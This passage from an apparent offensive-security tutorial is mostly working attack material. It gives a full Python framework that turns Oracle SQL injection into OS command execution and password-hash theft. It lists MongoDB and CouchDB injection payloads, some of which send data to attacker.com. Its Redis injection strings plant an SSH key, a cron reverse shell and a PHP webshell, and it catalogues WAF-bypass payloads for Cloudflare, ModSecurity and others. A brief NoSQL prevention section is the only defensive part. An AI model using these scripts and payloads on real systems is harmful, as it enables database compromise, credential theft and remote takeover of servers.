EXCEPTION WHEN OTHERS THEN NULL;
END;--
```

### Oracle Complete Exploitation Script

```python
#!/usr/bin/env python3
"""
Oracle Database Exploitation Framework
Complete SQLi to RCE for Oracle databases
"""

import requests
import re
import sys
import argparse
from urllib.parse import quote
from colorama import Fore, Style, init
import time

init(autoreset=True)

class OracleExploiter:
    def __init__(self, url, columns=3):
        self.url = url
        self.columns = columns
        self.db_version = None
        self.db_user = None
        self.db_name = None
        self.has_dba = False
        
    def send_payload(self, payload):
        """Send injection payload"""
        try:
            encoded = quote(payload)
            response = requests.get(f"{self.url}{encoded}", timeout=10)
            return response.text
        except Exception as e:
            print(f"{Fore.RED}[!] Error: {str(e)}")
            return None
    
    def extract_data(self, query):
        """Extract data using UNION SELECT"""
        # Oracle requires FROM dual and exact column count
        nulls = ','.join(['NULL'] * (self.columns - 1))
        payload = f"' UNION SELECT {query},{nulls} FROM dual--"
        return self.send_payload(payload)
    
    def check_dba(self):
        """Check if current user has DBA privileges"""
        print(f"{Fore.CYAN}[*] Checking DBA privilege...")
        
        response = self.extract_data("(SELECT COUNT(*) FROM dba_users WHERE username=user)")
        
        if response and '1' in response:
            self.has_dba = True
            print(f"{Fore.GREEN}[+] DBA privilege: YES")
        else:
            self.has_dba = False
            print(f"{Fore.YELLOW}[!] DBA privilege: NO")
        
        return self.has_dba
    
    def execute_command(self, command):
        """Execute OS command using DBMS_SCHEDULER"""
        print(f"{Fore.CYAN}[*] Executing command: {command}")
        
        job_name = f"evil_job_{int(time.time())}"
        
        # Create and execute job
        payloads = [
            f"'; BEGIN DBMS_SCHEDULER.CREATE_JOB(job_name=>'{job_name}',job_type=>'EXECUTABLE',job_action=>'/bin/bash',number_of_arguments=>2,enabled=>FALSE); END;--",
            f"'; BEGIN DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('{job_name}',1,'-c'); END;--",
            f"'; BEGIN DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('{job_name}',2,'{command} > /tmp/oracle_output.txt'); END;--",
            f"'; BEGIN DBMS_SCHEDULER.ENABLE('{job_name}'); END;--",
            f"'; BEGIN DBMS_SCHEDULER.RUN_JOB('{job_name}'); END;--",
        ]
        
        for payload in payloads:
            self.send_payload(payload)
            time.sleep(0.5)
        
        print(f"{Fore.GREEN}[+] Command executed (check /tmp/oracle_output.txt)")
        
        # Cleanup
        self.send_payload(f"'; BEGIN DBMS_SCHEDULER.DROP_JOB('{job_name}'); END;--")
        
        return True
    
    def extract_users(self):
        """Extract Oracle users"""
        print(f"{Fore.CYAN}[*] Extracting user information...")
        
        # Get current user
        response = self.extract_data("user")
        if response:
            print(f"{Fore.GREEN}[+] Current user: {response[:100]}")
        
        # Get all users
        response = self.extract_data("LISTAGG(username,',') WITHIN GROUP (ORDER BY username) FROM all_users")
        if response:
            print(f"{Fore.GREEN}[+] All users: {response[:200]}")
        
        # Try to get password hashes (requires DBA)
        if self.has_dba:
            response = self.extract_data("LISTAGG(name||':'||password,',') WITHIN GROUP (ORDER BY name) FROM sys.user$ WHERE type#=1")
            if response:
                print(f"\n{Fore.GREEN}[+] Password hashes: {response[:200]}")
    
    def enumerate_database(self):
        """Complete database enumeration"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Oracle Database Enumeration")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Version
        print(f"{Fore.CYAN}[*] Extracting database version...")
        response = self.extract_data("banner FROM v$version WHERE rownum=1")
        if response:
            match = re.search(r'Oracle Database (\d+\w+)', response)
            if match:
                self.db_version = match.group(1)
                print(f"{Fore.GREEN}[+] Version: {self.db_version}")
        
        # Current user
        print(f"\n{Fore.CYAN}[*] Extracting current user...")
        response = self.extract_data("user||'@'||SYS.DATABASE_NAME")
        if response:
            print(f"{Fore.GREEN}[+] User info: {response[:200]}")
        
        # Database name
        print(f"\n{Fore.CYAN}[*] Extracting database name...")
        response = self.extract_data("name FROM v$database")
        if response:
            match = re.search(r'>(\w+)<', response)
            if match:
                self.db_name = match.group(1)
                print(f"{Fore.GREEN}[+] Database: {self.db_name}")
        
        # List tables
        print(f"\n{Fore.CYAN}[*] Listing tables...")
        response = self.extract_data("LISTAGG(table_name,',') WITHIN GROUP (ORDER BY table_name) FROM user_tables")
        if response:
            print(f"{Fore.GREEN}[+] Tables: {response[:200]}")
        
        # Check DBA
        self.check_dba()
        
        print(f"\n{Fore.GREEN}[+] Enumeration complete!")
    
    def exploit(self):
        """Full exploitation chain"""
        print(f"{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Oracle Exploitation Framework")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        # Step 1: Enumerate
        self.enumerate_database()
        
        # Step 2: Extract users
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}User Extraction")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        self.extract_users()
        
        # Step 3: Command execution (if sufficient privileges)
        print(f"\n{Fore.YELLOW}{'='*70}")
        print(f"{Fore.YELLOW}Command Execution Attempt")
        print(f"{Fore.YELLOW}{'='*70}\n")
        
        self.execute_command('whoami')
        self.execute_command('id')
        
        print(f"\n{Fore.GREEN}[+] Exploitation complete!")


def main():
    parser = argparse.ArgumentParser(description='Oracle SQLi Exploitation Framework')
    parser.add_argument('-u', '--url', required=True,
                       help='Target URL (up to injectable parameter)')
    parser.add_argument('-c', '--columns', type=int, default=3,
                       help='Number of columns in SELECT (default: 3)')
    
    args = parser.parse_args()
    
    exploiter = OracleExploiter(args.url, args.columns)
    exploiter.exploit()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
python oracle_exploit.py -u "http://target.com/page.jsp?id=1" -c 3
```

---

## 💾 Chapter 15: NoSQL Injection

### Understanding NoSQL Databases

```
NoSQL Database Types:
━━━━━━━━━━━━━━━━━━━━━━━━━━
Document Stores:
  - MongoDB (most common)
  - CouchDB
  - RavenDB

Key-Value Stores:
  - Redis
  - Memcached
  - DynamoDB

Column Family:
  - Cassandra
  - HBase

Graph Databases:
  - Neo4j
  - OrientDB
  - ArangoDB

Key Difference from SQL:
✗ No SQL query language
✓ JSON-based queries (MongoDB)
✓ Different syntax/operators
✓ Schema-less design
✗ Different injection techniques
```

### MongoDB Injection

#### How MongoDB Queries Work

```javascript
// Normal MongoDB query
db.users.find({ username: 'admin', password: 'pass123' })

// JavaScript object syntax
{
  username: 'admin',
  password: 'pass123'
}

// Query operators
{
  username: { $eq: 'admin' },
  age: { $gt: 18 },
  status: { $ne: 'banned' }
}
```

#### MongoDB Injection Techniques

**Technique 1: Authentication Bypass**

```javascript
// Vulnerable code (Node.js/Express)
const username = req.body.username;
const password = req.body.password;

db.collection('users').findOne({
  username: username,
  password: password
}, function(err, user) {
  if (user) {
    // Login successful
  }
});

// Normal login attempt
POST /login
{
  "username": "admin",
  "password": "password123"
}

// Attack: Using $ne (not equal) operator
POST /login
{
  "username": "admin",
  "password": { "$ne": "" }
}

// Resulting query:
db.users.findOne({
  username: 'admin',
  password: { $ne: '' }
})
// This returns true if password is NOT empty (always true for existing users!)

// Alternative bypasses
{
  "username": { "$ne": null },
  "password": { "$ne": null }
}

{
  "username": { "$gt": "" },
  "password": { "$gt": "" }
}

{
  "username": { "$regex": ".*" },
  "password": { "$regex": ".*" }
}

{
  "username": "admin",
  "password": { "$in": ["", null, undefined] }
}
```

**Technique 2: Operator Injection**

```javascript
// MongoDB operators that can be exploited
$eq    - Equal
$ne    - Not equal
$gt    - Greater than
$gte   - Greater than or equal
$lt    - Less than
$lte   - Less than or equal
$in    - In array
$nin   - Not in array
$exists - Field exists
$regex - Regular expression
$where - JavaScript expression

// Examples
// Bypass authentication
{ "username": "admin", "password": { "$ne": "wrong" } }

// Extract data using $regex
{ "username": { "$regex": "^adm" } }  // Username starts with "adm"
{ "username": { "$regex": "^admin$" } } // Exact match

// Blind extraction character by character
{ "password": { "$regex": "^a" } }     // Starts with 'a'
{ "password": { "$regex": "^ab" } }    // Starts with 'ab'
{ "password": { "$regex": "^abc" } }   // Starts with 'abc'

// Using $where for JavaScript injection
{ "$where": "this.username == 'admin' && this.password.length > 0" }
{ "$where": "sleep(5000)" }  // Time-based attack
```

**Technique 3: $where JavaScript Injection**

```javascript
// Vulnerable code
db.users.find({
  $where: "this.username == '" + req.body.username + "'"
})

// Attack: Break out of string
{
  "username": "admin' || '1'=='1"
}

// Resulting query:
$where: "this.username == 'admin' || '1'=='1'"
// Always returns true!

// Advanced $where injections
// Extract data
{
  "username": "admin'; return this.password[0] == 'a'; //"
}

// Time-based extraction
{
  "username": "admin'; if (this.password[0] == 'a') { sleep(5000); } //"
}

// Boolean extraction
{
  "username": "admin'; return this.password.length > 5; //"
}

// Exfiltrate to external server
{
  "username": "admin'; var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://attacker.com/?pass=' + this.password); xhr.send(); //"
}
```

**Technique 4: Array Injection**

```javascript
// Vulnerable parameter parsing
// URL: /search?username=admin&username[$ne]=wrong

// In Express.js with body-parser:
req.query.username = { $ne: 'wrong' }

// Attack vectors in URL
/search?username[$ne]=
/search?username[$gt]=
/search?username[$regex]=.*
/search?password[$ne]=wrong

// JSON payloads
{
  "username": { "$ne": null },
  "password": { "$ne": null }
}

{
  "username": { "$in": ["admin", "root", "administrator"] }
}
```

#### MongoDB Blind Injection

```javascript
// Boolean-based blind injection using $regex

// Check if username starts with 'a'
{
  "username": { "$regex": "^a" },
  "password": { "$ne": "" }
}
// True response: User found
// False response: No user found

// Character-by-character extraction
charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
username = ''

for position in range(1, 20):
    for char in charset:
        payload = {
            "username": { "$regex": f"^{username}{char}" },
            "password": { "$ne": "" }
        }
        
        if check_response(payload):
            username += char
            break

// Time-based blind injection using $where
{
  "$where": "if (this.username[0] == 'a') { sleep(5000); return true; } else { return false; }"
}

// Python script for blind extraction
import requests
import string

def extract_field(url, field, known_prefix=''):
    charset = string.ascii_letters + string.digits + '_'
    result = known_prefix
    
    while True:
        found = False
        for char in charset:
            test_value = result + char
            
            payload = {
                field: { "$regex": f"^{test_value}" }
            }
            
            response = requests.post(url, json=payload)
            
            if "success" in response.text:
                result = test_value
                print(f"Found: {result}")
                found = True
                break
        
        if not found:
            break
    
    return result

# Usage
username = extract_field('http://target.com/login', 'username')
print(f"Extracted username: {username}")
```

#### MongoDB Data Extraction

```javascript
// Using $in to enumerate values
{
  "username": { "$in": ["admin", "root", "administrator", "user"] }
}

// Using $exists to find fields
{
  "credit_card": { "$exists": true }
}

// Extract all documents (if returning results)
{
  "username": { "$gt": "" }  // All usernames
}

// Limit and skip for pagination
db.users.find({}).limit(10).skip(0)   // First 10
db.users.find({}).limit(10).skip(10)  // Next 10

// Sort to control output
db.users.find({}).sort({ username: 1 })  // Ascending

// Count documents
db.users.countDocuments({ role: "admin" })
```

### CouchDB Injection

```javascript
// CouchDB uses HTTP REST API
// Vulnerable query construction

GET /database/_design/users/_view/by_username?key="admin"

// Injection: Manipulate the key parameter
GET /database/_design/users/_view/by_username?key="admin"&key="root"

// Access all documents
GET /database/_all_docs?include_docs=true

// View manipulation
GET /database/_design/users/_view/by_username?startkey=""&endkey="z"

// JavaScript injection in views (if user can create views)
{
  "_id": "_design/evil",
  "views": {
    "all": {
      "map": "function(doc) { var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://attacker.com/?data=' + JSON.stringify(doc)); xhr.send(); }"
    }
  }
}
```

### Redis Injection

```bash
# Redis command injection (if user input is used in commands)

# Vulnerable code (Python example)
redis_client.execute_command(f"GET {user_input}")

# Attack: Chain commands
user_input = "key\r\nSET malicious value\r\nGET "

# Resulting commands:
GET key
SET malicious value
GET 

# Common attack vectors
# Write SSH key
user_input = "x\r\nCONFIG SET dir /root/.ssh/\r\nCONFIG SET dbfilename authorized_keys\r\nSET x '\\n\\nssh-rsa AAAA...'\r\nSAVE\r\n"

# Write cron job
user_input = "x\r\nCONFIG SET dir /var/spool/cron/\r\nCONFIG SET dbfilename root\r\nSET x '\\n\\n*/1 * * * * bash -i >& /dev/tcp/attacker.com/4444 0>&1\\n\\n'\r\nSAVE\r\n"

# Webshell upload
user_input = "x\r\nCONFIG SET dir /var/www/html/\r\nCONFIG SET dbfilename shell.php\r\nSET x '<?php system($_GET[\"cmd\"]); ?>'\r\nSAVE\r\n"
```

### NoSQL Injection Prevention

```javascript
// BAD: Direct object insertion
const query = {
  username: req.body.username,
  password: req.body.password
};

// GOOD: Type validation
const query = {
  username: String(req.body.username),
  password: String(req.body.password)
};

// BETTER: Input sanitization
function sanitizeInput(input) {
  if (typeof input === 'object') {
    return Object.keys(input).reduce((obj, key) => {
      if (key.startsWith('$')) {
        // Remove operator keys
        return obj;
      }
      obj[key] = sanitizeInput(input[key]);
      return obj;
    }, {});
  }
  return input;
}

const query = {
  username: sanitizeInput(req.body.username),
  password: sanitizeInput(req.body.password)
};

// BEST: Use parameterized queries with validation
const { body, validationResult } = require('express-validator');

app.post('/login',
  body('username').isString().trim().escape(),
  body('password').isString(),
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }
    
    const user = await db.collection('users').findOne({
      username: req.body.username,
      password: hashPassword(req.body.password)
    });
  }
);
```

### NoSQL Injection Testing Payloads

```
MongoDB Authentication Bypass:
{"username": "admin", "password": {"$ne": ""}}
{"username": "admin", "password": {"$gt": ""}}
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
{"username": {"$in": ["admin", "root"]}, "password": {"$ne": ""}}

MongoDB Blind Injection:
{"username": {"$regex": "^a"}}
{"username": {"$regex": "^ad"}}
{"username": {"$regex": "^adm"}}
{"username": {"$regex": "^admin"}}

MongoDB $where Injection:
{"$where": "this.username == 'admin'"}
{"$where": "sleep(5000)"}
{"$where": "function() { return this.username == 'admin'; }"}

CouchDB:
?key="admin"
?startkey=""&endkey="z"
?include_docs=true

Redis:
key\r\nCONFIG GET *\r\n
key\r\nINFO\r\n
key\r\nCLIENT LIST\r\n
```

## 🛡️ Chapter 16: WAF Bypass Techniques

### Understanding Web Application Firewalls

```
What is a WAF?
━━━━━━━━━━━━━━━━━━━━━━━━━━━
A Web Application Firewall sits between users and the application,
inspecting HTTP/HTTPS traffic for malicious patterns.

Common WAFs:
✓ ModSecurity (Open Source)
✓ Cloudflare WAF
✓ AWS WAF
✓ Akamai Kona
✓ Imperva (Incapsula)
✓ F5 ASM
✓ Fortinet FortiWeb
✓ Barracuda WAF
✓ Sucuri
✓ Wordfence (WordPress)

Detection Methods:
1. Signature-based (pattern matching)
2. Anomaly-based (statistical analysis)
3. Behavioral analysis
4. Machine learning

Common Blocking Responses:
- HTTP 403 Forbidden
- HTTP 406 Not Acceptable
- HTTP 419 Authentication Timeout
- Custom error pages
- Connection reset
- Redirect to CAPTCHA
```

### WAF Detection

#### Method 1: Identifying WAF Presence

```bash
# Using wafw00f
wafw00f https://target.com

# Manual detection via headers
curl -I https://target.com

# Common WAF headers:
Server: cloudflare
X-CDN: Incapsula
X-Sucuri-ID: *
X-Protected-By: *
Set-Cookie: __cfduid=* (Cloudflare)

# Response body signatures
# ModSecurity: "403 Forbidden" with "mod_security"
# Cloudflare: "Attention Required! Cloudflare"
# Imperva: "Request unsuccessful. Incapsula incident ID"
# AWS WAF: "AccessDenied" or "Request blocked"

# Test with simple SQLi payload
curl "https://target.com/page?id=1' OR '1'='1"

# If blocked, you'll see:
# - Different status code (403, 406)
# - WAF error page
# - Connection timeout
```

#### Method 2: Fingerprinting WAF Rules

```python
#!/usr/bin/env python3
"""
WAF Fingerprinting Tool
Identifies WAF and its ruleset
"""

import requests
from colorama import Fore, init

init(autoreset=True)

class WAFDetector:
    def __init__(self, url):
        self.url = url
        self.waf_name = None
        
    def test_payload(self, payload):
        """Test if payload is blocked"""
        try:
            response = requests.get(f"{self.url}{payload}", timeout=5)
            return {
                'status': response.status_code,
                'blocked': response.status_code in [403, 406, 419, 429, 503],
                'headers': dict(response.headers),
                'body': response.text[:500]
            }
        except Exception as e:
            return {'error': str(e)}
    
    def detect_waf(self):
        """Detect WAF presence and type"""
        print(f"{Fore.CYAN}[*] Testing for WAF presence...")
        
        # Test payloads
        test_payloads = [
            "?id=1'",
            "?id=1 UNION SELECT NULL--",
            "?id=1 AND 1=1--",
            "?id=<script>alert(1)</script>",
            "?id=../../../etc/passwd"
        ]
        
        blocked_count = 0
        waf_signatures = {
            'cloudflare': ['cloudflare', 'cf-ray', '__cfduid'],
            'imperva': ['incapsula', 'visid_incap', 'incap_ses'],
            'akamai': ['akamai', 'ak_bmsc', 'akamaighost'],
            'aws': ['awselb', 'awsalb', 'x-amzn'],
            'f5': ['f5', 'bigip', 'tmm_cookie'],
            'modsecurity': ['mod_security', 'naxsi'],
            'sucuri': ['sucuri', 'x-sucuri-id'],
            'wordfence': ['wordfence', 'wfwaf'],
        }
        
        for payload in test_payloads:
            result = self.test_payload(payload)
            
            if result.get('blocked'):
                blocked_count += 1
                print(f"{Fore.RED}[!] Payload blocked: {payload}")
                
                # Check headers for WAF signatures
                headers_str = str(result.get('headers', {})).lower()
                body_str = result.get('body', '').lower()
                
                for waf, signatures in waf_signatures.items():
                    if any(sig in headers_str or sig in body_str for sig in signatures):
                        self.waf_name = waf
                        print(f"{Fore.YELLOW}[+] WAF Detected: {waf.upper()}")
                        break
            else:
                print(f"{Fore.GREEN}[+] Payload allowed: {payload}")
        
        if blocked_count > 0 and not self.waf_name:
            self.waf_name = "Unknown WAF"
            print(f"{Fore.YELLOW}[+] WAF Detected: {self.waf_name}")
        elif blocked_count == 0:
            print(f"{Fore.GREEN}[+] No WAF detected")
        
        return self.waf_name

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Usage: python waf_detect.py <url>")
        sys.exit(1)
    
    detector = WAFDetector(sys.argv[1])
    detector.detect_waf()
```

### Generic WAF Bypass Techniques

#### Technique 1: Case Variation

```sql
# Standard payload
' UNION SELECT NULL--

# Case variation bypasses
' UnIoN SeLeCt NULL--
' uNiOn sElEcT NULL--
' UNION select NULL--
' union SELECT NULL--

# Mixed with other techniques
' UniOn/**/SeLeCt NULL--
' UnIOn%0ASeL/**/ eCt NULL--
```

#### Technique 2: Comment Obfuscation

```sql
# Inline comments
'/**/UNION/**/SELECT/**/NULL--
'/*!UNION*//*!SELECT*/NULL--
'/*hello*/UNION/*world*/SELECT/*foo*/NULL--

# MySQL version-specific comments
'/*!50000UNION*//*!50000SELECT*/NULL--
'/*!12345UNION*//*!12345SELECT*/NULL--

# Nested comments
'/*/**/ UNION /**/ /**/SELECT/**/ NULL--

# Multiple comment styles
'--+UNION+SELECT+NULL--
'#UNION#SELECT#NULL--
```

#### Technique 3: Encoding Techniques

```sql
# URL encoding
%27%20UNION%20SELECT%20NULL--    # ' UNION SELECT NULL--
%2527%2520UNION%2520SELECT       # Double encoding

# Hex encoding
0x27 UNION SELECT NULL--          # ' UNION SELECT NULL--
0x554e494f4e                      # UNION in hex

# Unicode encoding
\u0027 UNION SELECT NULL--        # ' in unicode
%u0027 UNION SELECT NULL--

# HTML entity encoding
&#39; UNION SELECT NULL--         # ' as HTML entity
&#x27; UNION SELECT NULL--        # ' as hex HTML entity

# Mixed encoding
%27%20UnI%6Fn%20SELECT%20NULL--  # Mixed URL encoding
```

#### Technique 4: Whitespace Alternatives

```sql
# Different whitespace characters
'%09UNION%09SELECT%09NULL--     # Tab (%09)
'%0AUNION%0ASELECT%0ANULL--     # Newline (%0A)
'%0BUNION%0BSELECT%0BNULL--     # Vertical tab (%0B)
'%0CUNION%0CSELECT%0CNULL--     # Form feed (%0C)
'%0DUNION%0DSELECT%0DNULL--     # Carriage return (%0D)
'%A0UNION%A0SELECT%A0NULL--     # Non-breaking space (%A0)

# Plus sign in URL
'+UNION+SELECT+NULL--

# Comment as space
'/**/UNION/**/SELECT/**/NULL--

# Parentheses
'UNION(SELECT(NULL))--
```

#### Technique 5: Function/Keyword Splitting

```sql
# Split UNION
'UN/**/ION SE/**/LECT NULL--
'UNI/**/ON SEL/**/ECT NULL--

# Alternative functions
# Instead of VERSION()
@@version
@@VERSION
VERSION/**/()
VeRsIoN()

# Instead of DATABASE()
SCHEMA()
DATABASE/**/()
database()

# Instead of USER()
CURRENT_USER()
SESSION_USER()
SYSTEM_USER
```

#### Technique 6: String Concatenation

```sql
# MySQL
'UN'+'ION' SE'+'LECT' NULL--        # Won't work in MySQL
CONCAT('UN','ION',' ','SELECT')

# MSSQL
'UN'+'ION'+' '+'SE'+'LECT'+' '+'NULL'--

# Oracle
'UN'||'ION'||' '||'SE'||'LECT'||' '||'NULL'--

# PostgreSQL
'UN'||'ION'||' '||'SE'||'LECT'||' '||'NULL'--

# Using CHAR/CHR
CHAR(85)+CHAR(78)+CHAR(73)+CHAR(79)+CHAR(78)  # UNION
```

#### Technique 7: Buffer Overflow Techniques

```sql
# Overflow with junk data
'UNION SELECT NULL,NULL,NULL/*aaaaaaaaaa...many characters...*/--

# Large payload
'UNION SELECT NULL--' + 'A'*10000

# Binary junk
'UNION SELECT NULL\x00\x00\x00--
```

### Database-Specific WAF Bypasses

#### MySQL WAF Bypasses

```sql
# MySQL-specific comments
'/*!50000UNION*//*!50000SELECT*/NULL--
'/*!UNION*//*!SELECT*/NULL--

# MySQL scientific notation
SELECT 1e1                        # 10
SELECT 0x61646d696e              # 'admin' in hex

# Alternative quotes
SELECT `column_name` FROM users
SELECT 'test' FROM dual

# MySQL operators
' OR 1#
' OR 1-- -
' OR 1/*

# MySQL functions
' OR MID(password,1,1)='a'--     # Instead of SUBSTRING
' OR LEFT(password,1)='a'--

# Hexadecimal
' OR username=0x61646d696e--     # admin

# Character encoding
' OR username=_utf8'admin'--
' OR username=_latin1'admin'--

# Version-specific functions
' OR @@version LIKE '%5.%'--

# NULL byte injection
' UNION SELECT NULL%00--
```

#### MSSQL WAF Bypasses

```sql
# MSSQL-specific techniques
'; EXEC('UNION SELECT NULL')--
'; DECLARE @a varchar(50); SET @a='UNION'; EXEC(@a+' SELECT NULL')--

# String concatenation
'UN'+'ION'+' '+'SE'+'LECT'+' '+'NULL'--

# Alternative quotes
' OR username=N'admin'--         # Unicode string

# MSSQL comments
'--comment
'/*comment*/

# EXECUTE
'; EXECUTE('xp_cmdshell ''whoami''')--

# Char function
' OR username=CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110)--  # admin

# Alternative functions
' OR SUSER_NAME()=SUSER_NAME()--
' OR @@SERVERNAME=@@SERVERNAME--

# Stacked queries
'; WAITFOR DELAY '00:00:05'--
```

#### Oracle WAF Bypasses

```sql
# Oracle requires FROM dual
' UNION SELECT NULL FROM dual--
' UNION SELECT user FROM dual--

# Alternative quotes (Q-quote)
' UNION SELECT q'[admin's password]' FROM dual--
' UNION SELECT q'{test}' FROM dual--
' UNION SELECT q'<test>' FROM dual--
' UNION SELECT q'!test!' FROM dual--

# CHR function
' UNION SELECT CHR(97)||CHR(100)||CHR(109)||CHR(105)||CHR(110) FROM dual--

# Alternative syntax
' UNION ALL SELECT NULL FROM dual--
' UNION DISTINCT SELECT NULL FROM dual--

# ROWNUM instead of LIMIT
' AND ROWNUM=1--

# Oracle functions
' AND LENGTHB('a')=1--
' AND NVL(1,2)=1--

# N prefix
' UNION SELECT N'test' FROM dual--
```

#### PostgreSQL WAF Bypasses

```sql
# PostgreSQL-specific
'/**/UNION/**/SELECT/**/NULL--

# Dollar quoting
' UNION SELECT $$test$$--
' UNION SELECT $tag$test$tag$--

# Cast syntax
' UNION SELECT NULL::text--
' UNION SELECT CAST(NULL AS text)--

# String concatenation
' UNION SELECT 'ad'||'min'--

# Alternative operators
' WHERE username='admin' AND password='pass'
' WHERE username='admin' && password='pass'

# Array syntax
' UNION SELECT ARRAY[1,2,3]::text--

# E prefix for escape sequences
' UNION SELECT E'test\n'--

# PostgreSQL functions
' AND pg_sleep(0)=0--
' AND version()::text LIKE '%PostgreSQL%'--
```

### Advanced WAF Bypass Techniques

#### Technique 1: HTTP Parameter Pollution

```
# Send multiple parameters with same name
GET /page?id=1&id=' UNION SELECT NULL--

# Some WAFs only check first occurrence
# Some backends use last occurrence

# Different frameworks handle differently:
PHP: Uses last parameter
ASP.NET: Concatenates with comma
JSP: Uses first parameter

# Example attacks
/page?id=1&id=2' UNION SELECT NULL--
/page?id=1'/*&id=*/UNION SELECT NULL--
/page?id=1&WAF=&id=' UNION SELECT NULL--
```

#### Technique 2: HTTP Header Manipulation

```http
# Bypass based on header
GET /page?id=1' UNION SELECT NULL-- HTTP/1.1
Host: target.com
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1

# Some WAFs whitelist local IPs

# Content-Type manipulation
Content-Type: application/json;charset=UTF-8

# Referer bypass
Referer: https://target.com/admin

# User-Agent randomization
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)

# Custom headers that might bypass
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

#### Technique 3: HTTP Verb Tampering

```http
# Try different HTTP methods
GET /page?id=1' UNION SELECT NULL--
POST /page
HEAD /page?id=1' UNION SELECT NULL--
PUT /page?id=1' UNION SELECT NULL--
DELETE /page?id=1' UNION SELECT NULL--
OPTIONS /page?id=1' UNION SELECT NULL--
TRACE /page?id=1' UNION SELECT NULL--

# Some WAFs only inspect GET requests

# Example: POST with GET-style parameters
POST /page?id=1' UNION SELECT NULL-- HTTP/1.1
Content-Length: 0
```

#### Technique 4: Charset Manipulation

```http
# Different charset encodings
Content-Type: text/html; charset=utf-7
Content-Type: text/html; charset=ibm037
Content-Type: text/html; charset=utf-16

# UTF-7 encoding
+ADw-script+AD4-alert(1)+ADw-/script+AD4-

# UTF-16 encoding
\x00<\x00s\x00c\x00r\x00i\x00p\x00t\x00>

# IBM037 (EBCDIC)
# Convert payload to EBCDIC encoding
```

#### Technique 5: Path Obfuscation

```
# Different path formats
/page?id=1' UNION SELECT NULL--
/./page?id=1' UNION SELECT NULL--
/page/?id=1' UNION SELECT NULL--
/%2e/page?id=1' UNION SELECT NULL--
/page/.?id=1' UNION SELECT NULL--

# Windows-specific
/page\?id=1' UNION SELECT NULL--

# Null byte
/page%00?id=1' UNION SELECT NULL--

# Directory traversal mixed
/admin/../page?id=1' UNION SELECT NULL--
```

#### Technique 6: JSON/XML Injection Bypasses

```json
// JSON payload obfuscation
{
  "username": "admin",
  "password": {"$ne": ""}
}

// Nested objects
{
  "user": {
    "name": "admin' OR '1'='1"
  }
}

// Array injection
{
  "id": ["1", "' OR '1'='1"]
}

// Unicode in JSON
{
  "username": "\u0061\u0064\u006d\u0069\u006e"
}
```

```xml
<!-- XML payload obfuscation -->
<user>
  <name><![CDATA[admin' OR '1'='1]]></name>
</user>

<!-- XML entities -->
<user>
  <name>admin&apos; OR &apos;1&apos;=&apos;1</name>
</user>

<!-- Namespace abuse -->
<x:user xmlns:x="http://test.com">
  <x:name>admin' OR '1'='1</x:name>
</x:user>
```

### Cloudflare-Specific Bypasses

```sql
# Cloudflare often blocks on:
# - UNION keyword
# - SELECT keyword
# - OR 1=1
# - Common SQLi patterns

# Bypass techniques:

# 1. Case variation with comments
'/**/UnIoN/**/SeLeCt/**/NULL--

# 2. Using || for OR
' || '1'='1

# 3. Hex encoding
' UNION SELECT 0x61646d696e--

# 4. Scientific notation
' UNION SELECT 1e1--

# 5. NULL bytes
' UNION SELECT NULL%00--

# 6. Bypass via Cloudflare cache
# If page is cached, WAF might not inspect
# Use cache-busting parameters
?id=1' UNION SELECT NULL--&_=1234567890

# 7. Origin IP access
# Find real server IP (bypassing Cloudflare)
# Tools: CloudFlair, CloudFail
# Then access directly: http://real-ip/page?id=1' UNION SELECT NULL--
```

### ModSecurity Bypass Techniques

```sql
# ModSecurity Core Rule Set (CRS) bypasses

# 1. Bypass rule 942100 (SQL Injection Attack)
# Instead of: ' OR 1=1--
' OR 2=2--
' OR 3=3--
' OR 'a'='a'--

# 2. Bypass keyword detection
# Instead of: UNION SELECT
UN/**/ION SE/**/LECT
UNION/*foo*/SELECT
/*!UNION*//*!SELECT*/

# 3. Function splitting
# Instead of: SUBSTRING(password,1,1)
MID(password,1,1)
SUBSTR(password,1,1)
LEFT(password,1)

# 4. Using less common functions
# Instead of: database()
SCHEMA()
SCHEMA_NAME()

# 5. Bypass anomaly scoring
# Use minimal payloads to stay under threshold
' AND 1=1--     # Low anomaly score
' OR 1=2--      # Higher score
```

### Complete WAF Bypass Testing Script

```python
#!/usr/bin/env python3
"""
Comprehensive WAF Bypass Testing Tool
Tests multiple bypass techniques against target
"""

import requests
import time
from urllib.parse import quote, quote_plus
from colorama import Fore, Style, init
import argparse

init(autoreset=True)

class WAFBypassTester:
    def __init__(self, url, param='id'):
        self.url = url
        self.param = param
        self.successful_bypasses = []
        
    def test_payload(self, payload, description):
        """Test a single payload"""
        try:
            # Test with different encoding
            encodings = [
                ('Raw', payload),
                ('URL Encoded', quote(payload)),
                ('Double URL Encoded', quote(quote(payload))),
                ('Plus Encoded', quote_plus(payload))
            ]
            
            for enc_name, enc_payload in encodings:
                full_url = f"{self.url}?{self.param}={enc_payload}"
                
                response = requests.get(full_url, timeout=5)
                
                # Check if blocked
                if response.status_code in [403, 406, 419, 429, 503]:
                    print(f"{Fore.RED}[✗] Blocked - {description} ({enc_name})")
                    continue
                
                # Check response for errors/success
